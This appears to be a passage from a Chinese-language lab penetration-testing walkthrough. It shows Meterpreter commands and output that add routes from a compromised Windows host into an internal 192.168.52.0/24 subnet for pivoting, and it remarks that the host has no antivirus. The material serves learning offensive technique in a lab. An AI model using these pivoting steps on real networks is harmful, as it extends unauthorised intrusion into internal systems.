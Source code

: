 ## 添加路由

经过信息收集可以知道的有 该主机是一个域环境并且知道了他的内网地址，还有域控的ip地址，该主机并无杀软意味着我们可以随意操作不会被杀软拦截

开始添加路由，渗透内网网段

```csharp
meterpreter > run get_local_subnets //查看路由段

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
Local subnet: 169.254.0.0/255.255.0.0
Local subnet: 192.168.5.0/255.255.255.0
Local subnet: 192.168.52.0/255.255.255.0
meterpreter > run autoroute -p //查看路由

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] No routes have been added yet
meterpreter > run autoroute -s 192.168.52.0/24 //添加路由

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]
[*] Adding a route to 192.168.52.0/255.255.255.0...
[+] Added route to 192.168.52.0/255.255.255.0 via 192.168.5.129
[*] Use the -p option to list all active routes
meterpreter > run autoroute -p

[!] Meterpreter scripts are deprecated. Try post/multi/manage/autoroute.
[!] Example: run post/multi/manage/autoroute OPTION=value [...]

Active Routing Table
====================

   Subnet             Netmask            Gateway
   ------             -------            -------
   192.168.52.0       255.255.255.0      Session 2

meterpreter >
```

还可以利用msf自动创建路由

```csharp
meterpreter > run post/multi/manage/autoroute 

[!] SESSION may not be compatible with this module:
[!]  * incompatible session platform: windows
[*] Running module against STU1
[*] Searching for subnets to autoroute.
[+] Route added to subnet 169.254.0.0/255.255.0.0 from host's routing table.
[+] Route added to subnet 192.168.5.0/255.255.255.0 from host's routing table.
[+] Route added to subnet 192.168.52.0/255.255.255.0 from host's routing table.
```
